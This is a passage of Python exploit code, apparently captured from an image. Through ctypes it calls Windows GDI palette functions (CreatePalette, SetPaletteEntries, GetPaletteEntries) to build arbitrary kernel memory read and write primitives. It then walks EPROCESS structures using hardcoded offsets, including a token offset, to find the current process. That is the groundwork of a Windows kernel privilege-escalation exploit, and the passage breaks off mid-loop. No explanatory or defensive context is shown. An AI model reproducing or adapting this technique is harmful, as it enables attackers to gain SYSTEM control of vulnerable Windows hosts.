 ```
    """ Creates Worker Palette """
    global hWorker

    logPalette = LOGPALETTE()
    logPalette.palNumEntries = 0x3DC; # size: 0x1000; (SIZE - 0x90) / 4; 0x90 = size of _PALETTE64 struct
    logPalette.palVersion = 0x300
    gdi32.CreatePalette.restype = HPALETTE
    gdi32.CreatePalette.argtypes = [POINTER(LOGPALETTE)]
    hWorker = gdi32.CreatePalette(byref(logPalette))
    debug_print ("t[+] Worker Palette handle: 0x%X" % hWorker)

def set_address(address):
    """ Sets pFirstColor value of Worker Bitmap     """
    global hManager
    address = c_ulonglong(address)
    gdi32.SetPaletteEntries.argtypes = [HPALETTE, c_ulong, c_ulong, LPVOID]
    gdi32.SetPaletteEntries(hManager, 0, sizeof(address) / 4, addressof(address));

def write_virtual(dest, src, len):
    """ Writes value pointed at by Worker Palette """
    global hWorker
    set_address(dest)
    gdi32.SetPaletteEntries.argtypes = [HPALETTE, c_ulong, c_ulong, LPVOID]
    gdi32.SetPaletteEntries(hWorker, 0, len / 4, src) # reads 4 bytes at a time

def read_virtual(src, dest, len):
    """ Reads value pointed at by Worker Palette """
    global hWorker
    set_address(src)
    gdi32.GetPaletteEntries.argtypes = [HPALETTE, c_ulong, c_ulong, LPVOID]
    gdi32.GetPaletteEntries(hWorker, 0, len / 4, dest) # reads 4 bytes at a time

unique_process_id_offset = 0x2e0
active_process_links_offset = 0x2e8
token_offset = 0x358

# Get EPROCESS of current process
def get_current_eprocess(pEPROCESS):
    """ Returns ptr to Current EPROCESS structure """
    flink = c_ulonglong()
    read_virtual(pEPROCESS + active_process_links_offset, byref(flink), sizeof(flink));    

    current_pEPROCESS = 0
    while (1):
        unique_process_id = c_ulonglong(0)

        # Adjust EPROCESS pointer for next entry
        pEPROCESS = flink.value - unique_process_id_offset - 0x8

        # Get PID
        read_virtual(pEPROCESS + unique_process_id_offset, byref(unique_process_id), sizeof(unique_process_id));    

        # Check if we're in the current process
        if (os.getpid() == unique_process_id.value):
            current_pEPROCESS = pEPROCESS
            break

        read_virtual(pEPROCESS + active_process_links_offset, byref(flink), sizeof(flink));    

        # If next same as last, we've reached the end
        if (pEPROCESS == flink.value - unique_process_id_offset - 0x8):
```